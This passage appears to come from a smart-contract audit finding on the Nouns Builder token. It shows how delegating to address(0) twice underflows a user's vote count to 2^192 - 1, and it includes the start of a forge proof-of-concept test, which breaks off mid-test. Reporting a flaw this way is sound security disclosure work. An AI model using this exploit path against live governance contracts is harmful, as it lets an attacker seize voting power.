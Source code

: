 Assuming the `_delegate` function gets patched by changing:  
`address prevDelegate = delegation[_from];`  
to  
`address prevDelegate = delegates(_from);`

The steps to be taken:

1.  User (U) gets one NFT (e.g by winning the auction) a. votes(U) = 1
2.  U delegates to address(0) // prevDelegate is U, so votes(U)— a. votes(U) = 0, votes(address(0)) = 0
3.  U delegates to address(0) // prevDelegate is U, so votes(U)— a. votes(U) = 2^192 - 1

Below is a forge test showing the issue:

    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.15;
    
    import { NounsBuilderTest } from "../utils/NounsBuilderTest.sol";
    import { TokenTypesV1 } from "../../src/token/types/TokenTypesV1.sol";
    
    contract TokenTest is NounsBuilderTest, TokenTypesV1 {
        address user1 = address(0x1001);
        address delegate1 = address(0x2001);
        address delegate2 = address(0x2002);
    
        function setUp() public virtual override {
            super.setUp();
    
            vm.label(user1, "user1");
            vm.label(delegate1, "delegate1");
            deployMock();
        }
    
        function setMockFounderParams() internal virtual override {
            address[] memory wallets = new address[](1);
            uint256[] memory percents = new uint256[](1);
            uint256[] memory vestingEnds = new uint256[](1);
    
            wallets[0] = founder;
            percents[0] = 0;
            vestingEnds[0] = 4 weeks;
    
            setFounderParams(wallets, percents, vestingEnds);
        }
    
        function test_pown2() public {
            // user1 gets one token
            vm.startPrank(address(auction));
            token.mint();
            token.transferFrom(address(auction), user1, 0);
            vm.stopPrank();
    
            // user1 has 1 token & 1 vote
            assertEq(token.balanceOf(user1), 1);
            assertEq(token.getVotes(user1), 1);
    
            vm.prank(user1);
            token.delegate(address(0));
            assertEq(token.getVotes(user1), 0);
    
